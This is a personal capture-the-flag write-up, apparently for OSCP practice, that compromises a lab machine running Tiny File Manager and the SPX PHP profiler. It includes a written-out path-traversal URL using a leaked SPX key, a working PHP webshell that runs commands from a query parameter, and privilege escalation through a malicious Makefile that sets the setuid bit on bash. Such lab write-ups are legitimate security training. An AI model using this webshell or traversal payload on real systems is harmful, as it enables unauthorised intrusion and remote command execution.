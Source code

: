 **Start 17:17 07-02-2025**

---
```
Scope:
192.168.192.108
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- SPX -sT --min-rate=5000 -T5

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Tiny File Manager
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](../../../assets/7eac0b7ea0f1675b3816550764577514.png)

I tried the default creds

![](../../../assets/a338fe9ef2636785393cf2aa5606323c.png)

To no avail.

![](../../../assets/aa683d8df27b10c6f1bdd795c3b4098d.png)

I tried to brute force it using `hydra` but it just gave me a bunch of false positives.

![](../../../assets/1c0163d18beb58a5ce364aafc0b74df3.png)


## Gobuster

![](../../../assets/235376bd9c17230bcabc30cc52fe4668.png)

![](../../../assets/e718c18a9412d85c55c95ea292673ccb.png)


## 80/TCP - HTTP

I started looking for exploits 

![](../../../assets/888e50c7765fecf636d47b2f85493257.png)

![](../../../assets/ce3d38fefbe90c6b73aab8d29e705fae.png)

However this exploit didn't fit my case.

Coming back to the `/phpinfo.php` endpoint however we find the following.

![](../../../assets/87194a7176d6d97c028c026735590023.png)

![](../../../assets/b318ff5c8a6c0bde55fbd5b54b30a54e.png)

![](../../../assets/6dc0f9d3c8139b741c847103e9de8b37.png)

>[!important]
>The 3rd link in this case is the important one.

![](../../../assets/f49550b9a7e61c84095d0d8d2a7df975.png)


## PoC 

If we try to run the exploit as is we'll get this error:

![](../../../assets/690b552fad4039ffeabd032a9ec2e43e.png)

However that is because we haven't modified the code yet.

![](../../../assets/63dcd97c38fac0b6c732c99521f4006a.png)

Here we notice the `SPX_KEY` value which we can gather from the `/phpinfo.php` page:

![](../../../assets/0568596435169b74e01f9e7a48cbc639.png)

Modified:

![](../../../assets/751aee57333ee0a3b15e0d4c7f3733bb.png)

Now when we run it:

![](../../../assets/3655bca3a647ca502d971651f7e8b423.png)

Awesome! 

![](../../../assets/0a28c0273d837294a89ebf24d28487df.png)

Not so awesome.

Let's try it via the URL instead.

```url
http://spx/?SPX_KEY=a2a90ca2f9f0ea04d267b16fb8e63800&SPX_UI_URI=%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fvar%2fwww%2fhtml%2findex.php
```

![](../../../assets/33ca2eb9a793bd631b66d8d80790d08f.png)

![](../../../assets/e3745a666b1dbd0f5d6ff1e9ef412253.png)

We get 2 hashes that we can crack!

![](../../../assets/639629ac2f21a585124dd5959d03cdf0.png)


## Hashcat

![](../../../assets/2d61f1a2575b83a14484f382fc43ff6f.png)

>[!note]
>This took a *long* time, but eventually two passwords were cracked: `profiler, lowprofile`.


# Foothold

Using `admin - lowprofile` I was able to log in.

![](../../../assets/bf9f2a0280ce0dee1af9e69f14612284.png)

I then uploaded this webshell

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

After which I could execute a rev shell:

![](../../../assets/29158d4a64d87e32e55c2ca636c80570.png)

>[!fail]
>From here on my reverse shell for whatever reason wouldn't catch, whatever port I issued.

The day after after a fresh reboot I tried again:

![](../../../assets/79a6a5c55192a08381864def301c2ab7.png)

This time it worked:

![](../../../assets/72b1e21197374fe1277fdb256adffce9.png)

![](../../../assets/5e415dcf5d10d91790de275a147f91d4.png)

We don't have `sudo -l` privileges nor can we read the `local.txt` flag from *profiler*'s `/home` directory.

Let's check linpeas.


# Lateral Movement

## LinPEAS

Linpeas told me that this target is vulnerable to the **DirtyPipe** exploit:

![](../../../assets/c3fb954a23198d22f1a9ee68109b6a2f.png)

>[!fail]
>![](../../../assets/b51bb7b57528352abf558f680fa48de7.png)

Let's check further.

>[!tip]
>I forgot to spray the passwords and got stuck, try spraying first next time.

![](../../../assets/c11564103c740960886475c68ba4f851.png)

![](../../../assets/9a2c2ff6adede3116a9908b3306e1773.png)


### local.txt

![](../../../assets/ce58273d0b2dbf81fab042f4f183bb70.png)


# Privilege Escalation

## Replacing Makefile 

We will have to create a malicious `Makefile` which we will use to escalate our privs to *root*.

![](../../../assets/8d8c266b0ee5e3948e683b378842b73a.png)

![](../../../assets/ed550cbef89d9198365a3e0b7a749c17.png)

Let's run it.

![](../../../assets/d7a6f2fa7791a5e5d27e08d61ee47b5b.png)

![](../../../assets/0ec0f189c3635c5291dc3d319c4c32e9.png)

We now notice that the `s` bit is set, meaning we can use `/bin/bash -p` now to get a `root` shell.

![](../../../assets/a9bfcfebb40fc3cdd0ffcb0f900eda6e.png)


### proof.txt

![](../../../assets/7532c4814a10fd9269dcc18e22c3a3ce.png)

>[!summary]
>This box fucking *SUCKED*.

---

**Finished 10:47 08-02-2025**

[^Links]:  [[OSCP Prep]]